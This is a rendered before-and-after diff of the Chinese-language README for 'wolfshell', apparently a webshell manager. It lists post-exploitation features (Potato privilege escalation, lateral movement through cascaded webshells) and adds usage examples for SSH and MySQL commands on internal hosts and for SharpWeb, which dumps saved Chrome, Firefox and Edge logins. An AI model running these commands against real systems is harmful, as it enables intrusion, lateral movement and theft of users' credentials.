

Before and after one commit to 0x7556/wolfshell, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 84% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -30,13 +29,13 @@
 *   C#代码执行： 支持在运行时动态加载与执行 C# 代码。
 *   端口转发： 实现本地端口到远程内网主机的映射，方便安全地访问内部网络服务。
 *   HTTP代理： 一键内存注入Suo5高性能 HTTP 隧道代理工具。
-*   Potato提权： 利用系统服务漏洞进行权限提升，支持两种提权模块：
-*   efspotato： 利用 EFSPotato 实现权限提升。
-*   badpotato： 利用 BadPotato 实现权限提升。
-*   内网级联Cmd命令执行： 支持在复杂的内网环境中，级联内网webshell执行 CMD 命令进行横向移动。
-*   内网级联PowerShell执行： 支持在复杂的内网环境中，级联内网webshell执行 PowerShell 命令进行横向移动。
-*   sshcmd：SSH 远程命令执行工具，支持通过 webshell 建立 SSH 链接，实现对内网主机的命令执行与横向移动。
-*   mysqlcmd：MySQL 数据库连接工具，支持通过 webshell 连接内网MySQL，执行查询、导入导出等数据库操作。
+*   EfsPotato： 利用系统服务漏洞进行权限提升。
+*   BadPotato： 利用系统服务漏洞进行权限提升。
+*   内网级联Cmd命令执行： 支持在复杂的内网环境中，级联内网 WebShell 执行 CMD 命令进行横向移动。
+*   内网级联PowerShell执行： 支持在复杂的内网环境中，级联内网 WebShell 执行 PowerShell 命令进行横向移动。
+*   SshCmd：SSH 远程命令执行工具，支持通过 WebShell 建立 SSH 链接，实现对内网主机的命令执行与横向移动。
+*   MyysqlCmd：MySQL 数据库连接工具，支持通过 WebShell 连接内网MySQL，执行查询、导入导出等数据库操作。
+*   SharpWeb：浏览器凭据抓取工具，支持通过 WebShell 提取已保存的 Chrome、Firefox、Edge 登录信息与凭据。
 
 ## 辅助功能
 
@@ -279,9 +278,54 @@ return "Error occurred: " + ex.Message;
 
 ### SSH远程命令执行示例
 
+```bash
+Usage:
+
+sshcmd 192.168.50.128 22 root toor id
+sshcmd 192.168.50.128 22 root toor download /tmp/down.rar c:\down.rar
+sshcmd 192.168.50.128 22 root toor upload c:\upload.rar /tmp/upload.rar
+
+Keybord
+sshcmd 192.168.50.128 22 root toor download2 /tmp/down.rar c:\down.rar
+sshcmd 192.168.50.128 22 root toor upload2 c:\upload.rar /tmp/upload.rar
+```
+
 ![Hacking](http://www.18k.icu/img/wolfshell/sshcmd.png)
 
 ### Mysql数据库连接示例
 
+```bash
+mysqlcmd host port user pass dbname sqlstr
+mysqlcmd host port user pass dbname sqlb64
+
+Demo:
+mysqlcmd 192.168.50.139 3306 root WolfShell mysql info
+mysqlcmd 192.168.50.139 3306 root WolfShell mysql ""SELECT VERSION(); ""
+mysqlcmd 192.168.50.139 3306 root WolfShell mysql ""SELECT 3+5 ""
+mysqlcmd 192.168.50.139 3306 root WolfShell mysql c2VsZWN0IDMrNQ==";
+```
+
 ![Hacking](http://www.18k.icu/img/wolfshell/mysqlcmd.png)
 
+### 读取浏览器密码示例
+
+```bash
+Usage:
+    SharWeb arg0 [arg1 arg2 ...]
+
+Arguments:
+    all       - Retrieve all Chrome, FireFox and IE/Edge credentials.
+    full      - The same as 'all'
+    chrome    - Fetch saved Chrome logins. e.g. -d Directory
+    firefox   - Fetch saved FireFox logins. e.g. -p masterkey -d Directory
+    edge      - Fetch saved Internet Explorer/Microsoft Edge logins.
+
+Demo:
+    SharWeb all
+    SharWeb chrome
+    SharWeb chrome -d C:\Output
+    SharWeb firefox -p mymasterkey -d C:\Output
+    SharWeb edge
+=======================================================================
+```
+
````
Also changed, not shown: other parts of README.md (+1 -1 lines).
